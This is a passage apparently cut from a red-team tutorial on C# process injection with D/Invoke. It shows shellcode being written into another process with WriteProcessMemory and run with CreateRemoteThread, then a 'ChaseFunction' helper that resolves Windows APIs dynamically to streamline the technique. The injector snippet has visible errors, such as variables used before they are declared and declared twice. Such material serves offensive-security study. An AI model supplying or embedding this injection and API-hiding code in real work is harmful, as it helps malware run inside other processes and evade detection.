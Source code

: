 ```cs
            var written = writeProcessMemory(hProcess, alloc, shellcode, (UInt32)shellcode.Length, out bytesWritten);
            
            // CreateRemoteThread
            UInt32 bytesWritten = 0;
            pointer = Generic.GetLibraryAddress("kernel32.dll", "CreateRemoteThread");
            var createRemoteThread = Marshal.GetDelegateForFunctionPointer(pointer, typeof(CreateRemoteThread)) as CreateRemoteThread;
            var written = createRemoteThread(hProcess, IntPtr.Zero, 0, alloc, IntPtr.Zero, 0, IntPtr.Zero);
        }

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out UInt32 lpNumberOfBytesWritten);

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    }
}
```

As observable, `GetLibraryAddress` and `GetDelegateForFunctionPointer` are repeating in a pattern. 
We can then "improve" the code a little, wrapping the two calls within a new method `ChaseFunction`.
This technique is particularly useful when all the delegates are from the same unmanaged DLL:

```cs
internal class DLL
{

    public string name;

    public object ChaseFunction(string fname)
    {
        var type = (from assembly in AppDomain.CurrentDomain.GetAssemblies()
                    from t in assembly.GetTypes()
                    where t.Name == fname
                    select t).FirstOrDefault();
        this.CheckNull(type, fname + " not found");
        var p = DynamicInvoke.Generic.GetLibraryAddress(this.name, fname, true);
        this.CheckNullPtr(p, fname);
        var x = Marshal.GetDelegateForFunctionPointer(p, type);
        this.CheckNull(x, "GetDelegateForFunctionPointer");
        return x;
    }

    public DLL(string name)
    {
        this.name = name;
    }


    public void CheckNull(object test, string label) {
        if (test == null) {
```